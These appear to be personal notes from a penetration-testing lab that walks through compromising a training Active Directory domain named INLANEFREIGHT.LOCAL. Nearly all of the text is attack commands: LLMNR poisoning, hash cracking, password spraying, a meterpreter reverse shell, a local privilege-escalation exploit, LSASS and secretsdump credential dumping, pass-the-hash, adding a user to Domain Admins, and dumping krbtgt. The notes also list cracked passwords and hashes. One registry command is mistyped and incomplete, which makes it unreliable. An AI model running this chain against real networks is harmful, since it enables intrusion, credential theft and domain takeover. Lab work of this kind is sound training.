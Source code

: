 Connect to the internal attack host via SSH (you can also connect to it using `xfreerdp` as shown in the beginning of this module) and begin looking for a foothold into the domain.

# Enumeration
---
- `nmap -sV -T4 172.16.7.0/23 -oN nmap.out`
	- DC - `INLANEFREIGHT.LOCAL` - `172.16.7.3`

# Start with Responder
---
- `sudo responder -I ens224 -dwP -v `
- Got 'em hashes:
	- ![[Pasted image 20250817194318.png]]
- Crack 'em hashes:
	- `hashcat AB920.hash /usr/share/wordlists/rockyou.txt`
	- ![[Pasted image 20250817194517.png]]
- `AB920`:`weasal`

# Initial foothold
---
- `evil-winrm -i 172.16.7.50 -u ab920 -p weasal`
	- ![[Pasted image 20250817195149.png]]


# ==User Enumeration==
---
- Enumerate users using `crackmapexec`:
		- `crackmapexec smb 172.16.7.3 -u 'ab920' -p 'weasal' --users | awk '{print $5}' | cut -d "\\" -f 2 > final_users.txt`
- Searching for password:
	- `crackmapexec smb 172.16.7.60 -u final_users.txt -p 'Welcome1' | grep '+'`
	- ![[Pasted image 20250817220125.png]]
- `BR086`:`Welcome1`

# MSSQL Connection
---
- `impacket-mssqlclient BR086:Welcome1@172.16.7.60 -windows-auth`
	- ![[Pasted image 20250817220653.png]]
# Connecting to shares of DC
---
- `smbclient //172.16.7.3/"Department Shares" -U BR086`
- `recurse true`
- `ls`
	- ![[Pasted image 20250818013157.png]]
- `get \IT\Private\Development\web.config `
	- ![[Pasted image 20250818013240.png]]
- `netdb`:`D@ta_bAse_adm1n!`
- `impacket-mssqlclient netdb:'D@ta_bAse_adm1n!'@172.16.7.60`
- ![[Pasted image 20250818013605.png]]

# Foothold on SQL01
---
- We can execute `xp_cmdshell` with `netdb` user
- Spawn `web_delivery` shell with meterpreter:
	- ![[Pasted image 20250818014035.png]]
	- ![[Pasted image 20250818014042.png]]
# Exploit Suggester
---
- We can use `local_exploit_suggester` python script OR from metasploit:
	- ![[Pasted image 20250818024454.png]]
- Trying PrinterDemon:
	- `use exploit/windows/local/cve_2020_1337_printerdemon`
	- `set payload windows/x64/meterpreter/reverse_tcp`
	- `set SESSION 1`
		- Set other options
	- `run`
	- ![[Pasted image 20250818024537.png]]
	- ![[Pasted image 20250818024543.png]]
- We can also GET SYSTEM:
	- ![[Pasted image 20250818024956.png]]
- `sudo bloodhound-python -u 'BR086' -p 'weasal' -ns 172.16.7.3 -d inlanefreight.local -c all `

# More Enumeration
---
- `list_tokens -u`
	- This shows `INLANEFREIGHT.LOCAL/SQLSVC` as another user
	- We impersonate this
	- ![[Pasted image 20250818050132.png]]
- Running Sharphound:
	- `.\SharpHound.exe -c All --zipfilename ILFREIGHT`
	- ![[Pasted image 20250818050147.png]]
- This user is under a Special Group:
	- ![[Pasted image 20250818050422.png]]
- As administrator user, dump LSASSY (memory credentials):
	- `crackmapexec smb 172.16.7.60 -u Administrator -H 136b3ddfbb62cb02e53a8f661248f364 --local-auth -M lsassy`
		- OR
	- `secretsdump.py -hashes :136b3ddfbb62cb02e53a8f661248f364 Administrator@172.16.7.60`
	- ![[Pasted image 20250818055748.png]]
- Check the access:
	- `crackmapexec smb 172.16.7.0/23 -u mssqlsvc -H 8c9555327d95f815987c0d81238c7660`
	- ![[Pasted image 20250818060006.png]]
- ![[Pasted image 20250818060104.png]]
# Domain Compromise
---
- We do LLMNR poisoning attack on Windows hosts now.
- Transfer `inveigh.ps1` on `MS01`
- Pivot using `sshuttle` as we need RDP to work (inveigh won't work without proper GUI).
- Run this with `evil-winrm` on `MS01` to disable RDP security:
	- `reg add HKLM\System\CuntControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d  /f`
- ![[Pasted image 20250818073548.png]]
- RDP into `MS01` and run `inveigh.ps1`:
	- `xfreerdp3 /v:172.16.7.50 /u:'mssqlsvc' /pth:'8c9555327d95f815987c0d81238c7660'`
	- `Import-Module .\Inveigh.ps1`
	- `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`
- New hash obtained:
	- ![[Pasted image 20250818073649.png]]
- Crack it:
	- `hashcat CT059.hash /usr/share/wordlists/rockyou.txt `
	- ![[Pasted image 20250818073834.png]]
- `CT059`: `charlie1`
- Get shell as `CT059`:
	- `runas /user:INLANEFREIGHT.LOCAL\CT059 cmd.exe`
	- ![[Pasted image 20250818075146.png]]
	- **Add current user to domain admins** (since this user has **Generic All over Domain Admins** group ):
		- `net group "Domain Admins" CT059 /add /domain`
		- ![[Pasted image 20250818075601.png]]
	- Login to **Domain Controller**:
		- `evil-winrm -u CT059 -p charlie1 -i 172.16.7.3`
		- ![[Pasted image 20250818075734.png]]
	- `secretsdump.py CT059:charlie1@172.16.7.3 -just-dc-user krbtgt`
	- ![[Pasted image 20250818075934.png]]